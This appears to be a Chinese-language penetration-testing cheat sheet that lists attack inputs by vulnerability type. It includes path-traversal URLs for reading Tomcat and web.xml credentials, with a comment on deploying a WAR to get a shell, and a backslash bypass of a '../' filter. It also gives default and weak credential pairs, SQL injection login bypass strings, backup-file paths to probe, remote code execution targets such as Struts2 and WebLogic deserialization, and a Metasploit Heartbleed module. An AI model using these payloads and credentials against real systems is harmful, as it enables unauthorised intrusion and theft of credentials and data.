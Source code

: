 ### 任意文件遍历/下载
```
/view/download?path=../../conf/tomcat-users.xml  #读取tomcat manager密码，部署war getshell
downloadFile.action?inputPath=WEB-INF%2Fweb.xml&fileName=studentFlow.pdf
downloadToHTML.jsp?Path=/..\/WEB-INF\/web.xml&titleDoc=1  #仅当路径中出现../的时候提示访问地址非法，所以可以用\来绕过
```

### 任意文件上传
```
青铜器RDM任意上传getshell
```

### 弱口令
```
admin/123456
test/123456
admin/666666
admin/000000
admin/123321
test/test
admin/123
sa/sa
abc123
sa/123
admin:axis2  #Axis2的弱口令
manager/manager  #tomcat弱口令
弱口令: tomcat tomcat
weblogic/weblogic123 #weblogic弱口令
```
### 敏感信息泄露
```
/.svn/entries
/oldweb/pp.rar
istock.tar.gz
/uploads/uploads.tar
```
### SSRF
```
探测内网
```
### 未授权访问/权限绕过
```
ldap匿名访问
```
### 远程代码执行漏洞
```
user_goRegisterPage.action  #Struts2 devMode
/bea_wls_internal/ceshi.jsp #webloigc反序列
1099端口 #Java_rmi反序列化	
thinkphp任意代码执行漏洞
ImageMagick
```
### SQL注入
```
Search/index/fx/index'  #伪静态
admin' or 'f'='f，密码任意
admin' or 1=1 --
webservice/MuiltiExam.asmx?wsdl #SOAP注入
```

### 系统/服务运维配置不当
```
ssl心脏滴血漏洞  #msf > use auxiliary/scanner/ssl/openssl_heartbleed  也写个小脚本进行定时的检测，并保存泄漏的敏感内存信息
```
